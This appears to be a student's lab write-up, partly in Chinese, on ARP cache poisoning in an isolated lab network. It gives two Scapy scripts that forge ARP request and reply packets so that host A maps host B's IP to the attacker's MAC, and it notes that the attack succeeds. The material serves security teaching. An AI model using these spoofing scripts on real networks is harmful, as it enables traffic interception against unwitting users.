 # ARP Cache Poisoning

![image-20220406161602876](ARP Cache Poisoning.assets/image-20220406161602876.png)

## Task 1: ARP Cache Poisoning

**Task 1.A (using ARP request).** On host M, construct an ARP request packet to map B’s IP address
to M’s MAC address. Send the packet to A and check whether the attack is successful or not.

```python
#!/usr/bin/env python3
from scapy.all import *
E = Ether()
A = ARP()
A.op = 1 # 1 for ARP request; 2 for ARP reply
A.psrc = "10.9.0.6"
A.pdst = "10.9.0.5"
pkt = E/A
sendp(pkt)
```

在host A上，

![image-20220406162650411](ARP Cache Poisoning.assets/image-20220406162650411.png)

可见我们成功通过ARP request让host A的ARP缓存中B的IP地址映射到M的MAC地址。

---

**Task 1.B (using ARP reply).** On host M, construct an ARP reply packet to map B’s IP address to M’s MAC address. Send the packet to A and check whether the attack is successful or not. Try the attack under the following two scenarios, and report the results of your attack:

– Scenario 1: B’s IP is already in A’s cache.
– Scenario 2: B’s IP is not in A’s cache. You can use the command "arp -d a.b.c.d" to remove the ARP cache entry for the IP address a.b.c.d.

在任务1后，已经满足场景1的要求。

```python
#!/usr/bin/env python3
from scapy.all import *
E = Ether()
A = ARP()
A.op = 2 # 1 for ARP request; 2 for ARP reply
A.psrc = "10.9.0.6"
A.pdst = "10.9.0.5"
pkt = E/A
sendp(pkt)
```

![image-20220406163100506](ARP Cache Poisoning.assets/image-20220406163100506.png)
